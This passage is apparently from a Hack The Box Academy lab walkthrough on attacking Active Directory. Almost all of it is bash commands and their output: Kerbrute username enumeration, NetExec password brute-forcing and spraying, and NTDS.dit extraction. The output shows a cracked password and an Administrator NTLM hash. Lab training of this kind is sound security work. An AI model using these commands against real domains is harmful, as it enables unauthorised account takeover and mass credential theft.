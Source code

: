 ```bash
EOF
```

### Username Enumeration with Kerbrute
```bash
# Download Kerbrute
wget -q https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_linux_amd64 -O kerbrute
chmod +x kerbrute

# Get domain name first
netexec smb 10.129.202.85
# Output shows: (domain:ILF.local)

# Enumerate valid usernames
./kerbrute userenum -d ILF.local --dc 10.129.202.85 usernames.txt

# Expected output:
# [+] VALID USERNAME: jmarston@ILF.local
# [+] VALID USERNAME: cjohnson@ILF.local
# [+] VALID USERNAME: jstapleton@ILF.local
```

## 🗡️ Password Attacks Against Active Directory

### Dictionary Attacks with NetExec
```bash
# Brute force single user
netexec smb 10.129.202.85 -u jmarston -p /usr/share/wordlists/fasttrack.txt -d ILF.local

# Password spraying multiple users
netexec smb 10.129.202.85 -u usernames.txt -p /usr/share/wordlists/fasttrack.txt --continue-on-success -d ILF.local

# HTB Academy result:
# [+] ILF.local\jmarston:P@ssword!
```

### Kerbrute Password Attacks
```bash
# Brute force with Kerbrute
./kerbrute bruteuser -d ILF.local --dc 10.129.202.85 /usr/share/wordlists/fasttrack.txt jmarston

# Expected result:
# [+] VALID LOGIN: jmarston@ILF.local:P@ssword!
```

## 🎫 NTDS.dit Extraction Methods

### Method 1: NetExec ntdsutil Module (Fastest)
```bash
# One-command NTDS.dit extraction
netexec smb 10.129.202.85 -u jmarston -p 'P@ssword!' -d ILF.local -M ntdsutil

# Alternative direct method
netexec smb 10.129.202.85 -u jmarston -p 'P@ssword!' -d ILF.local --ntds

# Expected output:
# NTDSUTIL   10.129.202.85   445   DC01   [*] Dumping ntds with ntdsutil.exe
# NTDSUTIL   10.129.202.85   445   DC01   Administrator:500:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
```